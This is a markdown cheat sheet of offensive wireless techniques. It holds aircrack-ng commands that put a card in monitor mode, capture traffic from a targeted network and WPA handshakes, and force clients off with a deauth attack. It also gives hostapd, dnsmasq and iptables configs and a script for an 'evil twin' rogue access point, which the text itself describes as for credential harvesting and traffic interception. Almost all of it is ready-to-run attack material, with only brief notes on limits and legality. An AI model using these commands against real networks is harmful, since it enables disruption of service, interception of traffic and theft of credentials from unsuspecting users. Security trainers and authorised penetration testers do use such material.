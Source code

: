 ## Wireless Network Sniffing

### WiFi Packet Capture and Analysis
```bash
# Monitor Mode Setup
airmon-ng start wlan0                                       # Enable monitor mode
iwconfig wlan0mon mode monitor                             # Alternative method

# WiFi Packet Capture
airodump-ng wlan0mon                                        # Scan for networks
airodump-ng -c 6 -w capture --bssid AA:BB:CC:DD:EE:FF wlan0mon  # Target specific network

# WPA Handshake Capture
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan0mon
aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon  # Deauth attack

# Kismet Wireless Detection
kismet -c wlan0mon                                          # Comprehensive wireless analysis
```

**Documentation**: Wireless network monitoring and packet capture for security assessment.
**Limitations**: Requires compatible wireless hardware; WPA3 has stronger protections; may be illegal in some jurisdictions.

### Evil Twin Access Point
```bash
# Hostapd Configuration (evil_twin.conf)
interface=wlan1
driver=nl80211
ssid=Free_WiFi
hw_mode=g
channel=6
macaddr_acl=0
ignore_broadcast_ssid=0

# DHCP Configuration (dnsmasq.conf)
interface=wlan1
dhcp-range=192.168.1.2,192.168.1.30,255.255.255.0,12h

# Evil Twin Setup Script
#!/bin/bash
hostapd evil_twin.conf &
dnsmasq -C dnsmasq.conf -d &
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -A FORWARD -i wlan1 -o eth0 -j ACCEPT
echo 1 > /proc/sys/net/ipv4/ip_forward
```

**Documentation**: Rogue access point creation for credential harvesting and traffic interception.
**Limitations**: Requires multiple wireless interfaces; easily detected by informed users; illegal in many jurisdictions.
